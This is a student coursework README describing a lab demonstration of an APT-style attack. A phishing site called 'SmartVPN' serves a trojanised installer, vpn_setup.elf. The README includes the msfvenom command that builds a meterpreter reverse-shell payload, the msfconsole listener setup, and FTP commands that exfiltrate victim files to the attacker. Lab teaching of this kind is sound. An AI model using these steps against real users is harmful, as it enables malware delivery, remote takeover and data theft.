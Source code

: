 ## SmartVPN

This is a repository containing code for demonstration of APT attacks for Introduction to Cyber Security Coursework in IIIT Sricity.

This repo contains the server-side rendering code for a phishing website called as Smart VPN which has a maliicous .elf executable file as vpn_setup.elf which as the name suggests, is a fake VPN setup file which if executed, can open a connection to the attacker and spawn a shell of the victim's machine at the attacker's end.

We are setting up a reverse shell on the victim's computer which will connect to the attacker's machine which is listening to the connection request from any machine after the malicious file has been sent!

## Project Contributors

- Pranauv Kumar
- Rahul Aggarwal
- Sai Swetha M
- Anurag Yadav

## Some Information on APT

APTs are sophisticated, targeted cyber attacks
conducted by well-funded and highly skilled threat
actors.

One reknowned example of APT is APT28 -it is associated
with Russian state-sponsored hacking groups.

There are 5 Steps in APT :-
1) Reconnaisance and Weaponization - This is where where attacker collect information about the target organization by investigating its employees, partners, or customers and makes a malicious weapon well-crafted for one particular target inside the organization!
2) Delivery and Initial Intrusion - This is where they send the malware into the system inside a network they want to hack (thru various methods like Phishing mails, Water Holing Attack, etc) and get hold of a computer in the org's network.
3) Command and Control - This is where the attacker sets up Remote Access Tools / Backdoors in the victim's computer to access his computer when the host program is not running also.
4) Lateral Movement - This is where the attacker maps the org's devices through one compromised device and travels between them to get as much information as possible ( in a very slow manner so as to not alert the systems )
5) Data Exfiltration - This is where the collected data is sent to the attacker through any means like social media websites, file transfers, etc.

## How to Make It Work!

For demonstration, we need two Virtual Machines - Kali Linux and Ubuntu Linux default setup with FTP servers (VSFTPD preferably - installation not in the scope of this repository).

Note, here we are having 2 VMs in the same network for ease of demonstration and the IP addresses are on the basis of that!

Kali's IP - 192.168.100.4 and Ubuntu's IP - 192.168.100.5

In Kali Linux,

Firsly, create the malicious .elf executable file using msfvenom toolkit. The code is as given below:
```bash
  msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.100.4 LPORT=4443 -f elf > vpn_setup.elf
```

Then, setup the Listener using msfconsole ( Listen on the same host ip address and port as mentioned in the creatino of the .elf file code above ):
```bash
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set lhost 192.168.100.4
set lport 4443
exploit
```

Now that the listener is up and running in the Kali, we go for the Ubuntu.

From here, we access the SmartVPN website that is hosted on port 8000 of 192.168.100.4 and download the vpn setup from the website and we run it!

Boom!

Now, we have a hit in the Kali Linux's Listener inside msfconsole and now we can access the victim's computer through the shell that was spawned!

After this, to just show the data exfiltration part, we use FTP to connect from the victim's shell to the attacker's computer to exfiltrate some data (some random dummy.pdf files from victim's computer)
to do this, type the fllg in the shell spawned in the Kali,

```bash
shell
bash
ftp 192.168.100.4  #and enter kali's ftp password when prompted
put dummy.pdf ./   #to transfer dummy.pdf from victim's to attacker's computer
``` 

put command here sees the dummy.pdf in the main/default directory of ftp User in Ubuntu and transfers it to the default directory of Kali's ftp user.

Now we are done with the whole demonstration!
